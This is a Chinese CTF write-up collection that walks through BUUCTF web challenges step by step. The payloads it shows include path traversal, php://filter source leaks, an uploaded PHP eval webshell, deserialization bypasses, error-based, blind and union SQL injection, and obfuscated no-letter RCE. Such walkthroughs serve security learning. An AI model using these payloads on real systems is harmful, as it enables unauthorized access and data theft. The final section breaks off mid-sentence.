BUUCTF ：一
[HCTF 2018]WarmUp
文件包含漏洞
这道题漏洞在于它在验证后处理了我们传入的内容，而不是经过验证处理后的内容，我们只需要想办法绕过验证即可
if (! empty($_REQUEST['file']) && is_string($_REQUEST['file']) && emmm::checkFile($_REQUEST['file']) ) { include $_REQUEST['file'];//明显看到代码中在验证后直接包含了我们上传的内容 exit; } else { echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />"; }开发人员为了防止意外，做了许多的验证步骤
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];//建立访问白名单 if (! isset($page) || !is_string($page)) {//规定输入类型为字符串 echo "you can't see it"; return false; } if (in_array($page, $whitelist)) {//第一次，直接验证输入是否在白名单中 return true; } $_page = mb_substr( $page, 0, mb_strpos($page . '?', '?') );//在原输入后加？，并规定遇到？停止截取字符串，并交给$_page,本意是得到所有的字符串 if (in_array($_page, $whitelist)) { return true; } //再次验证$_page,感觉多此一举，可能是怕传入了get参数导致验证错误（仅为猜测） $_page = urldecode($page);//防止浏览器url解码导致错误，进行解码确定不会存在编码影响 $_page = mb_substr( $_page, 0, mb_strpos($_page . '?', '?') ); if (in_array($_page, $whitelist)) { return true; } //再次验证解码后的字符串 echo "you can't see it"; return false; } } //开发人员（模拟场景）为了防止因为各种原因出bug，细心的做了多种情况的验证，极大增加了用户体验。 //对安全人员而言,多重验证增加了绕过的可能绕过点
$_page = mb_substr( $page, 0, mb_strpos($page . '?', '?') );//在原输入后加？，并规定遇到？停止截取字符串，并交给$_page,本意是得到所有的字符串 //这里告诉我们可以手动增加？绕过后面的白名单验证
目录穿越漏洞
本题flag不在网站根目录的flag文件，而是在服务器根目录的ffffllllaaaagggg文件

所以不能使用/flag读取。
实现读取，这里使用目录穿越漏洞
参考链接：
https://blog.csdn.net/qq_41232519/article/details/107166432
linux 系统可以使用 cd .. 进入上级目录，在没有配置Nginx的配置文件/etc/nginx/conf.d/error2.conf的/files使用/闭合时，可以使用该原理实现目录穿越
include '/../../../../flag';//读取到服务器根目录下的flag这告诉我们开发不要偷懒
payload
?file=source.php?/../../../../ffffllllaaaagggg
flag:
flag{7c14b426-3463-4739-8445-03cb56eea4e6}
[ACTF2020 新生赛]Include
php伪协议
参考地址：
https://www.freebuf.com/articles/web/182280.html
PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。

在存在文件包含或者文件读取的情况下，有时会存在php伪协议的使用
payload:
题目明确告诉我们flag位于flag.php文件，但访问无意义，猜测在php代码中
?file=php://filter/convert.base64-encode/resource=flag.phpphp://filter (本地磁盘读取)
条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；
flag
PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7ZWU1YmYzNjYtMGUwYi00YTBjLWIxZDktYjBmOTVmNDk0ZGNlfQo= //base64解码 <?php echo "Can you find out the flag?"; //flag{ee5bf366-0e0b-4a0c-b1d9-b0f95f494dce}题目很简单，只是在告诉我们，include文件包含可以引发伪协议漏洞造成源码泄露
[ACTF2020 新生赛]Exec
命令执行
太简单了没说头
payload
[极客大挑战 2019]Havefun
看源代码提示
<!-- $cat=$_GET['cat']; echo $cat; if($cat=='dog'){ echo 'Syc{cat_cat_cat_cat}'; } --> //get传参cat=dog,出了 //签到难度都没有
payload:
?cat=dog
flag:
flag{4cad5ea1-a7c8-4eb8-9d46-b1676cef8e09}
[极客大挑战 2019]Upload
文件上传漏洞
进入后搜索框提示上传图片
先测试，原原本本的传一张正常头像
哈皮出题人，正常图像都报错，脑子有坑，于是我进行了漫长的测试，改Type改文件名，笑死，根本传不上去
没办法，查了别人的wp,发现要检测filename，Type和文件头（我正常图片你和我讲文件头，脑子有坑，Type还不能是jpeg，绝了）
改后上传成功
先上传php文件试试
感情类型不对全当不是图片算呗，出题人我给你个buff
burp抓包，改类型和文件头，发现php后缀被过滤（意料之中）
改phtml，报错，<? 被过滤
这里我想到了用html语言的srcipt标签

<script language="php">eval($_POST['mujie'])</script>成功
猜测上传位置是upload目录，访问它

有显示，说明猜测正确，但post传参phpinfo()没反应，心累了，直接蚁剑

payload
<script language="php">eval($_POST['mujie'])</script>
flag

flag{97b3f0f2-8f22-4087-8980-0ff831e3970e}
做完了这道题，我还是不懂，正常图片是没文件头吗？有这么偷懒的？简直瞎搞
[极客大挑战 2019]Secret File
同样是php伪协议
看源代码
<a id="master" href="./Archive_room.php" style="background-color:#000000;height:70px;width:200px;color:black;left:44%;cursor:default;">Oh! You found me</a>访问Archive_room.php
点击后发现跳转到end.php
回去看源代码
<a id="master" href="./action.php" style="background-color:red;height:50px;width:200px;color:#FFFFFF;left:44%;">访问action.php会跳转，burp抓包
<html> <!-- secr3t.php --> </html>访问secr3t.php
<html> <title>secret</title> <meta charset="UTF-8"> <?php highlight_file(__FILE__); error_reporting(0); $file=$_GET['file']; if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){ echo "Oh no!"; exit(); } include($file); //flag放在了flag.php里 ?> </html

payload:
?file=php://filter/convert.base64-encode/resource=flag.php
flag:
PCFET0NUWVBFIGh0bWw+Cgo8aHRtbD4KCiAgICA8aGVhZD4KICAgICAgICA8bWV0YSBjaGFyc2V0PSJ1dGYtOCI+CiAgICAgICAgPHRpdGxlPkZMQUc8L3RpdGxlPgogICAgPC9oZWFkPgoKICAgIDxib2R5IHN0eWxlPSJiYWNrZ3JvdW5kLWNvbG9yOmJsYWNrOyI+PGJyPjxicj48YnI+PGJyPjxicj48YnI+CiAgICAgICAgCiAgICAgICAgPGgxIHN0eWxlPSJmb250LWZhbWlseTp2ZXJkYW5hO2NvbG9yOnJlZDt0ZXh0LWFsaWduOmNlbnRlcjsiPuWViuWTiO+8geS9oOaJvuWIsOaIkeS6hu+8geWPr+aYr+S9oOeci+S4jeWIsOaIkVFBUX5+fjwvaDE+PGJyPjxicj48YnI+CiAgICAgICAgCiAgICAgICAgPHAgc3R5bGU9ImZvbnQtZmFtaWx5OmFyaWFsO2NvbG9yOnJlZDtmb250LXNpemU6MjBweDt0ZXh0LWFsaWduOmNlbnRlcjsiPgogICAgICAgICAgICA8P3BocAogICAgICAgICAgICAgICAgZWNobyAi5oiR5bCx5Zyo6L+Z6YeMIjsKICAgICAgICAgICAgICAgICRmbGFnID0gJ2ZsYWd7MTNkZGMxOTgtNTNiNS00Mjg0LTg5NTUtZmY4ZTEyN2Q3ZDVifSc7CiAgICAgICAgICAgICAgICAkc2VjcmV0ID0gJ2ppQW5nX0x1eXVhbl93NG50c19hX2cxcklmcmkzbmQnCiAgICAgICAgICAgID8+CiAgICAgICAgPC9wPgogICAgPC9ib2R5PgoKPC9odG1sPgo= //解码 <!DOCTYPE html> <html> <head> <meta charset="utf-8"> <title>FLAG</title> </head> <body style="background-color:black;"><br><br><br><br><br><br> <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br> <p style="font-family:arial;color:red;font-size:20px;text-align:center;"> <?php echo "我就在这里"; $flag = 'flag{13ddc198-53b5-4284-8955-ff8e127d7d5b}'; $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd' ?> </p> </body> </html> //flag{13ddc198-53b5-4284-8955-ff8e127d7d5b}
[极客大挑战 2019]Knife
蚁剑/菜刀连接一句话木马，白给题

懂了吧，不懂百度一句话木马
payload
蚁剑/菜刀自己连
flag
flag{85f8bd90-e8c6-43d0-8d9d-1485b8eac6a2}
[极客大挑战 2019]Http
http基础知识及请求伪造
查看源码

这有个跳转，直接进去
不是这个从网址跳转，伪造referer

我这里用的是modheader,这里同样可以使用burp抓包，以及新版的hackbar
访问
不是题目指定的浏览器，伪造UA头即可
将原来的UA复制下来，将浏览器改为Syclover,我这里是Chome

访问
只能本地访问，伪造ip地址即可，伪造XFF头

本题结束

payload
访问就完了
flag
flag{c465ce01-d3c7-40de-a51b-9640ed18805b}
[极客大挑战 2019]PHP
php反序列
进入后说有备份的习惯，常用的备份名试试，www.zip成功

查看给我们的源码，有个flag.php文件，虽然我知道它是错的，可我还是想提 -> 错误率up
线索在这里

直接看class.php文件class Name{ private $username = 'nonono'; private $password = 'yesyes'; public function __construct($username,$password){ $this->username = $username; $this->password = $password; } function __wakeup(){ $this->username = 'guest'; } function __destruct(){ if ($this->password != 100) { echo "</br>NO!!!hacker!!!</br>"; echo "You name is: "; echo $this->username;echo "</br>"; echo "You password is: "; echo $this->password;echo "</br>"; die(); } if ($this->username === 'admin') { global $flag; echo $flag; }else{ echo "hello my friend~~sorry i can't give you the flag!"; die(); } } }可知题目要求：
username=admin,password=100
接着反序列化三部曲：找目标，找入口，操控可操控数据
入口：
public function __construct($username,$password){ $this->username = $username; $this->password = $password; }这里我们可以直接操控username和password
$Name = new Name($username="admin",$password=100);目标达成，但题目使用__wakeup()函数将username恒定为guest，我们需要绕过它
序列化分析：
当一个类序列化时，类中的变量会被序列化为一串字节流
O:4:"Name":2:{s:8:"username";s:5:"admin";s:8:"password";i:100;}若将这一串字节流再反序列化，将会得到
object(Name)#2 (2) { ["username"]=> string(5) "admin" ["password"]=> int(100) }分析：
1、O:4:”Name”:2 表示类的相关属性，O代表类是一个object，4代表类名长度为4，”Name”表示类名
2、中说明序列化的变量/常量
s说明类型，5说明长度
本题含义为：
Name类中序列化了两个变量，分别是username，值为字符型的admin以及password，值为整形的100
这里为了方便理解，我将private属性改为了public属性，实际序列化的字符会有差别序列化
可以看出序列化对象时，不会保存常量的值。对于父类中的变量和属性值，则会保留。
unserialize()反序列化函数用于将单一的已序列化的变量转换回 PHP 的值。__wakeup()函数在对象被构建以后执行，所以$this->username的值不为空
序列化时三个不同属性的变量结果不同
Public属性序列化后格式:成员名
Private属性序列化后格式:%00类名%00成员名
Protected属性序列化后的格式:%00*%00成员名
除过public属性变量，其他属性想要得到完整的字节流（序列化字符串），都需要编码为base64
$A = 'O:4:"Name":3:{s:8:"username";s:5:"admin";s:8:"password";i:100;s:8:"username";s:5:"guest";}'; var_dump(unserialize($A));绕过__wakeup()
回归正题，php5版本__wakeup()函数存在漏洞
详情见：
https://www.cnblogs.com/zy-king-karl/p/11436872.html
简单说，自己把类的变量个数改高就行
payload
$Name = new Name($username="admin",$password=100); echo $A = base64_encode(serialize($Name)); //结果：Tzo0OiJOYW1lIjoyOntzOjE0OiIATmFtZQB1c2VybmFtZSI7czo1OiJhZG1pbiI7czoxNDoiAE5hbWUAcGFzc3dvcmQiO2k6MTAwO30= //解码： //O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;} //改为3，绕过__wakeup()： //O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}get上传

flag
flag{a084b447-1e32-40b2-8bdc-ab40e0e891ba}
[极客大挑战 2019]BuyFlag
POST传参加绕过限制
查看源码，有注释提示

要求使用POST传参上传密码，密码需等于404但不能是数字
根据网页的描述，身份必须为Cuit

抓包或者使用hackbar和POSTMAN均可
http请求中一般使用cookie或者Token代表身份
这里抓包查看，发现cookie有个user=0
改成Cuit,仍然没有绕过身份验证，想到0有错误的意思，改为1，成功绕过

这里我用了POSTMAN，顺手练习一下POSTMAN的使用，我jian’yi
输入密码
密码这里有两个要求，值为404并且不是数字，那么想办法将404变成字符型即可
我这里用的是添加空字符%00

密码正确，提示让我们买flag，直接money=9999999999999
提示过长，这里我想到了ISCC2021的一道题
直接9e9

成功
payload
header: cookie: uesr=1 POST: password=404%00&money=9e9
flag
flag{0557fab6-3496-4c4a-8195-933a6c0c49e0}
[极客大挑战 2019]FinalSQL
盲注之运算符注入
本质上还是盲注，但本题绕过方式给我打开了新世界的大门，我称它为运算符注入
测试闭合可以得知本题是数字型，过滤了空格，and,||，* 等之前我在注入中非常常有的符号
因为是数字型，我也没法用括号直接绕空格，纠结要不要看wp
因为想自己做，所以问了学长，学长直接**?id=1=(1=1)=1–+**
我？？？
灵感来了
php运算符并不局限于等号
还有异或，非，<>等，这些都可以作为注入的payload使用
| & ！不做过多解释，一般用不到
^ 异或运算 ：只有两个值一对一错时返回1，否则返回0
<> ，同 != 两个值不相等时返回1，否则返回0
= 两个相等时返回1，否则返回0
本题为数字型闭合，空格和if被过滤，所以使用此注入法盲注
payload
这里直接跑盲注脚本
库名
code_select = 'database()' code = '(ascii(substr(('+code_select+'),'+j+',1))='+i+')--+' url = "http://5c906f0d-416f-4c4e-8344-d9a1907bac36.node3.buuoj.cn/search.php?id=1^"+code#url #geek表名
code_select = 'select(group_concat(table_name))from(information_schema.tables)where(table_schema="geek")' code = '(ascii(substr(('+code_select+'),'+j+',1))='+i+')--+' url = "http://bc6a95f5-79ef-472a-9c12-847e970bdcdf.node3.buuoj.cn/search.php?id=1^"+code#url # F1naI1y,Flaaaaag列名
code_select = 'select(group_concat(column_name))from(information_schema.columns)where(table_name="F1naI1y")' code = '(ascii(substr(('+code_select+'),'+j+',1))='+i+')--+' url = "http://bc6a95f5-79ef-472a-9c12-847e970bdcdf.node3.buuoj.cn/search.php?id=1^"+code#url #id,username,password code_select = 'select(group_concat(column_name))from(information_schema.columns)where(table_name="Flaaaaag")' code = '(ascii(substr(('+code_select+'),'+j+',1))='+i+')--+' url = "http://bc6a95f5-79ef-472a-9c12-847e970bdcdf.node3.buuoj.cn/search.php?id=1^"+code#url # id,fl4gawsl数据
code_select = 'select(group_concat(fl4gawsl))from(geek.Flaaaaag)' code = '(ascii(substr(('+code_select+'),'+j+',1))='+i+')--+' url = "http://bc6a95f5-79ef-472a-9c12-847e970bdcdf.node3.buuoj.cn/search.php?id=1^"+code#url #哈皮题目一堆数据，不贴了,flag在F1naI1y表最后面 #可以直接查最后一个，所以 code_select = 'select(group_concat(fl4gawsl))from(geek.Flaaaaag)where(id=9)'
flag
忘复制了，太长难的重跑，自己跑吧
[极客大挑战 2019]HardSQL
报错注入
本题为过滤了空格和等于的报错注入
空格使用()绕过，等号使用like绕过
like用法同等号相同
注库
check.php? username=admin& password=admin'or(updatexml(1,(left((select(group_concat(0x7e,database(),0x7e))),18)),0))%23
- 注表
check.php? username=admin& password=admin'or(updatexml(1,(left((select(group_concat(0x7e,table_name,0x7e))from(information_schema.tables)where(table_schema)like("geek")),20)),0))%23

- 注列
check.php ?username=admin &password=admin'or(updatexml(1,(left((select(group_concat(0x7e,column_name,0x7e))from(information_schema.columns)where(table_name)like("H4rDsq1")),20)),0))%23

数据不全，把left换成right注一次，补全数据，这里substr被过滤
check.php ?username=admin &password=admin'or(updatexml(1,(right((select(group_concat(0x7e,column_name,0x7e))from(information_schema.columns)where(table_name)like("H4rDsq1")),20)),0))%23

- 注数据
check.php ?username=admin &password=admin'or(updatexml(1,(left((select(group_concat(0x7e,password,0x7e))from(geek.H4rDsq1)),100)),0))%23

同上，right()补全
check.php ?username=admin &password=admin'or(updatexml(1,(right((select(group_concat(0x7e,password,0x7e))from(geek.H4rDsq1)),30)),0))%23

payload
见如上分析
flag
flag{fb2256ff-59ea-4da1-892e-058d5790dc8d}
[第一章 web入门]SQL注入-1
简单的联合查询
http://2220f5ea-6d14-4afe-968d-a231b7f532ed.node3.buuoj.cn/index.php?id=' union select 1,2,database() %23

没什么原理可说，干就完了
payload
爆库
http://2220f5ea-6d14-4afe-968d-a231b7f532ed.node3.buuoj.cn/index.php?id=' union select 1,2,group_concat(schema_name)from(information_schema.schemata)%23
爆表
http://2220f5ea-6d14-4afe-968d-a231b7f532ed.node3.buuoj.cn/index.php?id=' union select 1,(select group_concat(table_name)from(information_schema.tables) where table_schema="note"),3%23
爆字段
http://2220f5ea-6d14-4afe-968d-a231b7f532ed.node3.buuoj.cn/index.php?id=' union select 1,(select group_concat(column_name)from(information_schema.columns) where table_name="fl4g"),3%23
得到数据
http://2220f5ea-6d14-4afe-968d-a231b7f532ed.node3.buuoj.cn/index.php?id=' union select 1,(select group_concat(fllllag) from note.fl4g ),3%23
flag
n1book{union_select_is_so_cool}
[极客大挑战 2019]RCE ME（这是一道很有趣的rce）
取反绕过无字母数字的限制
rce 无字母数字的命令执行一般有三种
1、取反
2、异或
3、或运算
其中，取反实现最为简单，一般情况下命令也最短，是首要选择
异或实现复杂，命令长，除非~被过滤，否则不考虑
或运算介于二者之间，但或运算需要构造脚本，同样麻烦
这里没有过滤~，所以使用取反来执行命令
php脚本
<?php
$code = 'assert';
echo urlencode(~$code);
$b = '(eval($_POST["a"]))';
echo "\n",urlencode(~$b);
两个概念
~取反的原理
~php中它的作用是对内容的二进制数取反例如：10011100
这是一串我随意写的二进制数，无任何意义，使用
~，即会对它的每位二进制进行取反操作，这个学过C的朋友应该都知道即 ~10011100 == 01100011
- php7版本的函数执行
7版本不同于7一下的版本
PHP7前是不允许用
($a)();这样的方法来执行动态函数的，但PHP7中增加了对此的支持。所以在7版本中，就存在了使用(phpinfo)();执行命令的可能
而7以下的版本则不行，需要通过
. file执行文件并配合通配符规则进行无字母数字的命令执行如将文件路径写为：
. /???/???/???.???当然这样写有很大的重名率，所以在配合
